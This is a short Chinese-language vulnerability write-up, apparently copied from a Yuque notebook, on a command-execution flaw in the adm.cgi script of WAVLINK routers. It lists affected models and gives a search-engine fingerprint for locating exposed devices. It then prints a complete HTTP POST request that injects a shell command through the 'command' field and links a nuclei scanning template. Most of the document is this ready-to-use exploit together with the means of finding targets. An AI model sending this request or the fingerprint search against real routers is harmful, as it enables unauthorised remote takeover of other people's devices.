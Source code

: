 # WAVLINK adm.cgi命令执行漏洞

# 一、漏洞简介
WAVLINK是中国睿因科技（WAVLINK）公司开发的一款路由器，该系统adm.cgi文件存在命令执行漏洞，攻击者可通过该漏洞获取服务器权限。包含型号WN530HG4、WN531G3、WN572HG3、WN535G3、WN575A4等。

# 二、影响版本
+ wavlink 路由器

# 三、资产测绘
+ hunter`web.body="firstFlage"`
+ 特征

![1703226837131-abc67852-1626-482a-982b-2f8f69837f2c.png](./img/g25y0jJy9HEuSzIf/1703226837131-abc67852-1626-482a-982b-2f8f69837f2c-154106.png)

# 四、漏洞复现
```java
POST /cgi-bin/adm.cgi HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

page=sysCMD&command=";id;"
```

![1703227525600-a2c72405-b4ed-41d9-b3a9-5fcaf6b9bb7e.png](./img/g25y0jJy9HEuSzIf/1703227525600-a2c72405-b4ed-41d9-b3a9-5fcaf6b9bb7e-661984.png)

nuclei脚本

[wanlink-router-adm-cgi-rce.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222231419-b11f1277-6ff4-4254-8a64-b9fd783e0f85.yaml)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ur96lfz8saqpabto>